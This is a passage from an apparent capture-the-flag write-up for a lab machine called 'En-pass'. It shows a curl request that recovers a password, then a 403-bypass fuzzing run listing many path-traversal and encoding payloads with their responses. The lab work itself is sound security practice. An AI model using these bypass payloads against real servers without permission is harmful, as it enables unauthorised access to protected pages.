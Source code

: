 ~~~
┌──(kali㉿kali)-[/data/En-pass]
└─$ curl -s -XPOST -d "title=##,??,??,##,??,#,??,#,###" http://10.10.67.150:8001/reg.php | grep Nice
              echo " Congo You Got It !! Nice ";
</h4><h3 style='position: absolute;left:40%;top:46%;color:white;'>Nice. Password : cimihan_are_you_here?  </h3>
~~~

## 403 Fuzzing

At this stage, we have the password for the SSH private key, but no valid user. As the hint says `The path you get will forbid to see but you can bypass it`, I thought of the last resource we have: the `403.php` page. After some searches on the Internet to bypass 403 pages, you'll eventually find this [fuzzing tool](https://github.com/intrudir/403fuzzer).

Open BurpSuite and run 403fuzzer:

~~~
┌──(kali㉿kali)-[/data/src/403fuzzer]
└─$ python3 403fuzzer.py -u http://10.10.67.150:8001/403.php -hc 403,404 --proxy http://localhost:8080

Sending header payloads...

Proxy flag was detected. Skipping trailing dot payload...

Sending URL payloads...
Response Code: 200  Length: 2563  Payload: /#403.php
Response Code: 200  Length: 2563  Payload: /#?403.php
Response Code: 400  Length: 306 Payload: /%2e%2e/403.php
Response Code: 200  Length: 2563  Payload: /#403.php
Response Code: 400  Length: 306 Payload: /%2e%2e/403.php
Response Code: 200  Length: 2563  Payload: /
Response Code: 200  Length: 2563  Payload: /
Response Code: 200  Length: 2563  Payload: /
Response Code: 200  Length: 2563  Payload: /403.php%3b/%2e.
Response Code: 200  Length: 2563  Payload: /403.php%3b/..
Response Code: 200  Length: 2563  Payload: /403.php/%2e%2e
Response Code: 200  Length: 2563  Payload: /403.php/%2e%2e/
Response Code: 200  Length: 2563  Payload: /403.php/..
Response Code: 200  Length: 2563  Payload: /403.php/../
Response Code: 200  Length: 2563  Payload: /403.php/../../
Response Code: 200  Length: 2563  Payload: /403.php/../../../
Response Code: 200  Length: 2563  Payload: /403.php/../../..//
Response Code: 200  Length: 2563  Payload: /403.php/../..//
Response Code: 200  Length: 2563  Payload: /403.php/../..//../
Response Code: 200  Length: 2563  Payload: /403.php/.././../
Response Code: 200  Length: 2563  Payload: /403.php/../.;/../
Response Code: 200  Length: 2563  Payload: /403.php/..//
Response Code: 200  Length: 2563  Payload: /403.php/..//../
Response Code: 200  Length: 2563  Payload: /403.php/..//../../
Response Code: 200  Length: 2563  Payload: /403.php/../;/../
Response Code: 200  Length: 917 Payload: /403.php/..;/ <------------------ interesting
Response Code: 200  Length: 917 Payload: /403.php/..;//../
Response Code: 200  Length: 2563  Payload: /403.php//../../
Response Code: 200  Length: 2563  Payload: /403.php;%2f%2f/../
Response Code: 200  Length: 2563  Payload: /403.php;%2f..%2f/../
Response Code: 200  Length: 2563  Payload: /403.php;/%2e%2e
Response Code: 200  Length: 2563  Payload: /403.php;/%2e%2e/
Response Code: 200  Length: 2563  Payload: /403.php;/%2e.
Response Code: 200  Length: 2563  Payload: /403.php;/.%2e
Response Code: 200  Length: 2563  Payload: /403.php;/..
Response Code: 200  Length: 2563  Payload: /403.php;/../
Response Code: 200  Length: 2563  Payload: /403.php;/../../
~~~